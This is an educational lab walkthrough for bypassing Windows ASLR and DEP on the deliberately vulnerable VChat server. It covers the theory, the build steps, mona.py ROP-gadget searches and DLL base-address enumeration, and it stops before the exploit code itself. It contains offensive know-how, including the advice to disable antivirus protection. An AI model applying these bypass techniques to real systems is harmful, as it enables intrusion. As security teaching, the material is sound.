# Bypassing Window Exploit Protection
> [!NOTE]
> - This is not based on an existing blog; the original implementation is from [llan-OuO](https://github.com/llan-OuO).
> - Disable Windows *Real-time protection* at *Virus & threat protection* -> *Virus & threat protection settings*.
> - Don't copy the *$* sign when copying and pasting a command in this tutorial.
> - Offsets may vary depending on what version of VChat was compiled, the version of the compiler used, and any compiler flags applied during the compilation process.
___
Due to the prevalence of protections such as [Address Space Layout Randomization](https://learn.microsoft.com/en-us/windows/security/threat-protection/overview-of-threat-mitigations-in-windows-10#address-space-layout-randomization) (ASLR) and NoneXecutable (NX) Memory Segments through the use of [Data Execution Prevention](https://support.microsoft.com/en-us/topic/what-is-data-execution-prevention-dep-60dabc2b-90db-45fc-9b18-512419135817) (DEP) in Windows, this exploit will use the ROP technique discussed [previously](https://github.com/DaintyJet/VChat_TRUN_ROP) with some modifications and assumptions to bypass a program with both ASLR and DEP protections applied.

> [!IMPORTANT]
> Please set up the Windows and Linux systems as described in [SystemSetup](./SystemSetup/README.md)!
## Windows Protections
In order to exploit VChat with the ASLR and NX-Memory protections enabled, we will need to understand what those protections do to prevent attackers from successfully exploiting the system. Otherwise, we will be unable to create effective measures to bypass them.

### Data Execution Prevention
This protection has been discussed in detail [previously](https://github.com/DaintyJet/VChat_DEP) and additional notes are available in [VChat_DEP_Intro](https://github.com/DaintyJet/VChat_DEP_Intro). For more detail, please refer to the previous writeup and [official documentation](https://learn.microsoft.com/en-us/windows/win32/memory/data-execution-prevention), as this section will only review the basics.


DEP is a system-level protection that can also be enabled on a per-executable basis at [compile time](https://learn.microsoft.com/en-us/cpp/build/reference/nxcompat-compatible-with-data-execution-prevention?view=msvc-170) or by enabling a bit in a Portable Executable (PE) File using [EditBin](https://learn.microsoft.com/en-us/cpp/build/reference/editbin-options?view=msvc-170). DEP can also be enabled for all processes on a system-wide basis through the [command line](https://learn.microsoft.com/en-us/cpp/build/reference/editbin-options?view=msvc-170) or through the [Advanced Systems Properties GUI](https://thegeekpage.com/how-to-enable-or-disable-data-execution-prevention-dep-on-windows-10-11/).

> [!NOTE]
> Enabling DEP on a system-wide basis is dangerous as some programs like Just-In-Time (JIT) Compilers or other older programs may write executable code into their stack regions for legitimate purposes, and this setting will break those programs.

Once enabled the host system will check the NoneXecutable (NX) bit on the page of memory the instruction is located in when attempting to process executable instructions. If this bit is set on the page of memory the current instruction comes from, then an exception will be raised, as we should not be executing any instructions in regions where the NX bit is set. Because the stack region will have the NX bit set by default when this protection is enabled on a binary, this prevents attackers from directly writing shellcode onto the stack and using a `JMP ESP` instruction to gain control of the execution's flow.

### Address Space Layout Randomization
[ASLR](https://learn.microsoft.com/en-us/windows/security/threat-protection/overview-of-threat-mitigations-in-windows-10#address-space-layout-randomization) covered in our writeup [VChat_ASLR_Intro](https://github.com/daintyjet/VChat_ASLR_Intro) is a system-level protection that increases the difficulty attackers will face when attempting to locate, overwrite or jump to specific locations in the memory. This is enabled by default for the core Windows DLLs and executables; It can be enabled at [compile time](https://learn.microsoft.com/en-us/cpp/build/reference/dynamicbase-use-address-space-layout-randomization?view=msvc-170) or with on already compiled binaries with [Editbin](https://learn.microsoft.com/en-us/cpp/build/reference/editbin-options?view=msvc-170) for user applications or DLLs. 

In comparison to how ASLR is implemented in Linux, Windows suffers from some issues that make it more susceptible to attacks that attempt to bypass ASLR. For our exploit, the primary issue with the Windows ASLR implementation is that the shared libraries we randomize the address for, are only assigned a new randomized address when they are first loaded into memory. This means the randomization only occurs when a DLL is loaded by a process for the first time, this often occurs only at the time our system boots up. Only when all processes using the library have exited and the library is unloaded can the address be re-randomized. The unloading of DLLs is not always guaranteed when a process exits, as DLLs are shared libraries and will not be unloaded till all processes using it have exited.

Once a shared library is unloaded from memory (no processes are using it), the next time it is used, we will need to reallocate and load it back into the system's memory so processes may access it and map it into their address spaces. This means the DLLs base address can be randomized again without breaking functions that have already mapped it into memory as no processes would have it mapped into their memory space since this is the first time the DLL is being loaded into memory. Most Windows DLLs, and especially system DLLs, are used by many user space processes, so it is unlikely they will be unloaded from memory as each and every process using them would have to unload the DLL or stop executing, which is unlikely for a large number of common DLLs. This means the only way to guarantee we get new randomized base addresses for all DLLs is for the system to restart \[1\]. 

Additionally, 32-bit EXEs like VChat contain only 8 bits in their addresses that can be randomized without compromising the functionality of the executable \[1\], and 32-bit DLLs only contain 14 bits in the addresses capable of randomization \[2\]. This means it is possible to reasonably brute force the base address of a DLL as long as the program we are exploiting, in this case VChat is restarted shortly after it crashes since it is unlikely that the base address of the DLLs or modules we wish to use change; this is what allows us to brute force the base address of a 32-bit module within a reasonable amount of time. Another issue with the implementation of Windows' ASLR is that the shared DLLs are loaded at the same address for all processes on the system, this means if we were able to discover the base address by exploiting a separate *accessible* process "A" then we could use the address acquired from process "A" in an exploit against our intended target process "B" on the same system without having to brute force the address, or gain access to B's binary.

> [!NOTE]
> Windows processes can dynamically free DLLs at runtime using the [FreeLibrary(...)](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-freelibrary) function so a process does not have to exit in order for them to stop using a DLL. However most processes on Windows use one of the core system DLLs provided by Windows itself, when a program unloads on it is unlikely to continue functioning, and will likely exit shortly.

## Prerequisites
This project requires some basic knowledge of Windows Exploit Protections such as [ASLR](https://github.com/daintyjet/VChat_ASLR_Intro), [DEP](https://github.com/daintyjet/VChat_DEP_Intro) and attack involving [ROP Chains](https://github.com/DaintyJet/VChat_ROP_INTRO). We have discussed the generation of ROP chains against the VChat program in previous documents such as [VChat_TRUN_ROP](https://github.com/DaintyJet/VChat_TRUN_ROP) and briefly in the [Control Flow Guard](https://github.com/DaintyJet/VChat_CFG) (CFG) write up. This exploit is based off the [VChat_TRUN_ROP](https://github.com/DaintyJet/VChat_TRUN_ROP) exploit, however this exploit will use knowledge of the base system in order to brute force the base address of a Windows DLL used in the generation of a ROP chain. We will bypass both the ASLR and DEP protections that have been discussed previously without using [Arwin](https://github.com/xinwenfu/arwin) or [Immunity Debugger](https://www.immunityinc.com/products/debugger/).


## VChat Setup and Configuration
This section covers the compilation process, and use of the VChat Server. We include instructions for both the original VChat code which was compiled with MinGW and GCC on Windows, and the newly modified code that can be compiled with the Visual Studio C++ compiler.

### Visual Studio
1. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun) for the *essfunc* DLL.
2. Build the project, as this contains inline assembly the target DLL file must be compiled as a x86 DLL (32-bits).
3. Copy the Resulting DLL from the *Debug* folder in the [Essfunc Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/DLL/Essfun/Debug) into the *Debug* folder in the [VChat Project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat/Debug).

    

4. Open the [Visual Studio project](https://github.com/DaintyJet/vchat-fork/tree/main/Server/Visual%20Studio%20Projects/EXE/VChat) for the *VChat* EXE.
5. Open the `Project` -> `Properties` menu and open the Linker configuration options.

    

6. Open the *Advanced* linker configurations menu. Ensure both the DEP and ASLR protections are enabled.

    

7. If you plan to use `vchat.exe` as one of the source modules for the ROP chain you will also in the *Advanced* linker configuration menu, enable and set a fixed base address so the executable is loaded at `0x62400000` while also disabling ASLR.

    

8. Apply the configuration changes and build the Project, our executable will be in the *Debug* folder. You can then launch the executable!

### MinGW/GCC
   1. Compile VChat and it's dependencies if they have not already been compiled. This is done with mingw.
      1. Create the essfunc object File.
		```powershell
		# Compile Essfunc Object file
		$ gcc.exe -c essfunc.c
		```
      2. Create the [DLL](https://learn.microsoft.com/en-us/troubleshoot/windows-client/deployment/dynamic-link-library) containing functions that will be used by the VChat.
		```powershell
		# Create a the DLL with a static (preferred) base address of 0x62500000
		$ gcc.exe -shared -o essfunc.dll -Wl,--out-implib=libessfunc.a -Wl,--image-base=0x62500000 essfunc.o
		```
         * ```-shared -o essfunc.dll```: We create a DLL "essfunc.dll", these are equivalent to the [shared library](https://tldp.org/HOWTO/Program-Library-HOWTO/shared-libraries.html) in Linux.
         * ```-Wl,--out-implib=libessfunc.a```: We tell the linker to generate generate a import library "libessfunc.a" [2].
         * ```-Wl,--image-base=0x62500000```: We specify the [Base Address](https://learn.microsoft.com/en-us/cpp/build/reference/base-base-address?view=msvc-170) as ```0x62500000``` [3].
         * ```essfunc.o```: We build the DLL based off of the object file "essfunc.o"
      3. Compile the VChat application.
		```powershell
		# Compile and Link VChat
		$ gcc.exe vchat.c -o vchat.exe -lws2_32 ./libessfunc.a -Wl,--image-base=0x62400000
		```
         * ```vchat.c```: The source file is "vchat.c"
         * ```-o vchat.exe```: The output file will be the executable "vchat.exe"
         * ```-lws2_32 ./libessfunc.a```: Link the executable against the import library "libessfunc.a", enabling it to use the DLL "essfunc.dll".
         * ```./-Wl,--image-base=0x62400000```: Specify a Windows Linker option and configure the base address to be `0x62400000`.

## Exploit Process
The following sections cover the process that should (Or may) be followed when performing this exploitation on the VChat application. It should be noted that the [**Dynamic Analysis**](#dynamic-analysis) section makes certain assumptions primarily that we have access to the binary that may not be realistic in cases where you exploit remote servers and that the target process will restart an unlimited amount of times when it crashes or otherwise exits unexpectedly; however the enumeration and exploitation of generic Windows, and Linux servers to get the binary from a remote server falls outside of the scope of this document.

> [!IMPORTANT]
>  You will **need** to recompile VChat for this exploit to work as expected. This is done to eliminate a null byte from the base address of the executable. This is discussed in the [VChat Setup](#vchat-setup) section

### Influences of Enabling Windows Exploit Protection
Before enabling Windows Exploit Protection, the base addresses of *vchat.exe* and *essfunc.dll* are fixed at `0x00400000` and `0x62500000` respectively. This is because both are not marked as ASLR-compatible because they were not linked with the `/DYNAMICBASE` flag at compile time (?). Other modules in the Windows system are ASLR-compatible. Hence, their base addresses will change if the machine restarts as discussed [previously](#address-space-layout-randomization).

1. We can first look at the base addresses of the modules VChat loads: In Immunity debugger access the Executable modules table by accessing the following tabs (View -> Executable modules or <Alt+E>) This is shown below.

   1. Access the *View* Tab, and click on *Executable*.

        

   2. Examine the Base addresses of each module.

        

2. Enable *all* Windows Exploit Protections; additional methods for enabling DEP have been discussed in [previous walkthroughs](https://github.com/DaintyJet/VChat_DEP).
   1. Open Windows Settings

        

   2. Search Exploit Protection in the Windows start menu.

        

   3. Turn on all defenses and restart the machine. (You should, at a minimum, turn on the DEP and ASLR protections)

        


<!--
https://stackoverflow.com/questions/6002359/so-most-of-the-binary-is-composed-of-reloc-table 
https://www.codeproject.com/Articles/12532/Inject-your-code-to-a-Portable-Executable-file#ImplementRelocationTable7_2
-->
3. Now that we have enabled the Windows Exploit Protections, forced ASLR will take effect and the base addresses of all DLLs (including essfunc.dll) will be randomized each time the victim machine restarts. vchat.exe would not be randomized because it does not contain a [.reloc section](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format#the-reloc-section-image-only) which is required for the host system to rebase the modules successfully. The `.reloc` section contains the information required by the dynamic linker in order to factor in the difference between the expected and actual location in memory of pointers and functions within the module that have had their absolute addresses changed due to the relocations. This table allows us to refer to the addresses within a relocated file as a constant offset from some base address.

    1. Let's look at the Memory view of the loaded process to confirm this: In Immunity debugger, access the Memory View table by accessing the following tabs (Immunity debugger: View -> Memory <Alt+M>).

        

    2. Examine the PE file sections for VChat and essfunc.dll. Below is the memory view; we can see the `.realloc` section for the essefunc.dll.

        


## Exploitation
This writeup will use the same attack that was done in [VChat_TRUN_ROP](https://github.com/DaintyJet/VChat_TRUN_ROP) with some modifications to brute-force the base address of a DLL these gadgets are located in before launching a shell on a successful connection. The basic idea of the previous ROP attack is that a ROP chain for disabling DEP is generated and executed so that we can then run our injected shell code directly from the stack.

However, in this scenario, since the addresses of DLLs will change on system restarts, then, we cannot predict the addresses of some instructions that we used in the ROP chain if we are targeting a remote machine. We also assume there is no access to the system for generating new ROP chains with [`mona`](https://www.bing.com/search?pglt=41&q=mona.py+manual&cvid=7e32adfb344d42948c54946510c5ecea&gs_lcrp=EgZjaHJvbWUqBggAEEUYOzIGCAAQRRg7MgYIARBFGDkyBggCEC4YQDIGCAMQLhhAMgYIBBAuGEAyBggFEAAYQDIGCAYQABhAMgYIBxBFGDwyBggIEEUYPNIBCDMyNjJqMGoxqAIAsAIA&FORM=ANNTA1&PC=DCTS) each time as was done previously.

To bypass ASLR, we will generate a ROP chain using only one ASLR-compatible module, and then we will brute force the base address of this target module. For this to work we assume the target application restarts shortly after a fatal error occurs.

> [!IMPORTANT]
> The offsets and addresses shown in the following screenshots may differ from those used in the python and ruby code in this repository. This is because the offsets change slightly between the Windows 10 version of VChat compiled with GCC and the Windows 11 version compiled with the Visual Studio compiler.

### Generate ROP chain
> [!NOTE]
> Before running the ROP generation commands you can change `mona.py`'s working folder to make the results easier to find using the command `!mona config -set workingfolder c:\logs\E11` where `c:\logs\E11` is a path to the folder we want to save the results in.

1. In Immunity Debugger we can try generating a ROP chain with a single module.

    https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/0592e77f-e7ea-4d89-bf7e-f0ebb6cdb870

    1. This can be done by using the following command, replace vchat.exe with a few other DLLs one at a time:
        ```sh
        !mona rop -m vchat.exe -n
        ```
        * `-m `: Search through the specified files (In this case only vchat.exe) *only* when building ROP chains.
        * `-n`: Ignore all modules that start with a Null Byte.

    2. Below we show the output of searching for gadgets in *vchat.exe* if you have **not recompiled** it to remove the null byte from it's address.

        

    3. If you have, then we will see that `mona.py` has found some useful gadgets, but not enough to create a full ROP chain to call VirtualProtect.

        

    4. By looking at the `rop_chains.txt`, we can see this more clearly.

        

        * You can see the lack of certain gadgets due to the comments `0x00000000,  # [-] Unable to find gadget to put 00000201 into ebx`.
2. To extend the gadget space, we can add an additional module, which will hopefully contain the gadgets we need. As we have enabled ASLR system-wide, any DLL we add will be rebased, and we will be required to brute-force its base address. Due to this, we want to include only one additional DLL to limit the amount of work needed to brute force the chain.
   1. Determine some DLLs that are loaded by the VChat process and that we could use. There are two common methods for this.
      1. In Immunity Debugger.

        https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/ad786202-099d-4dc7-bdda-f7e9ef1d5b3a

         1.  Access the Executable Modules table; click on the View Tab -> Executable Module.

            

        1. Examine the DLLs Loaded by the process.

            

            * Immunity debugger organizes the DLLs under the executable modules table as they a *shared libraries* that contain executable code that the main process will call!
      2. Using the Windows Sysinternals tool [ListDLLs](https://learn.microsoft.com/en-us/sysinternals/downloads/listdlls). If you plan to use this method you should download this and add it to your path or simply execute the commands from the folder the executable is located in.

        https://github.com/DaintyJet/VChat_Brute_Force/assets/60448620/16fa708d-cf57-4d0f-90fa-eef338818386


        1. Open Task Manager, and locate the VChat Process.

            

            * If you do not have the additional details displayed, you should click the *More Details* button at the bottom of the Task Manager window.
        2. Right Click the process and select *Go to Details*.

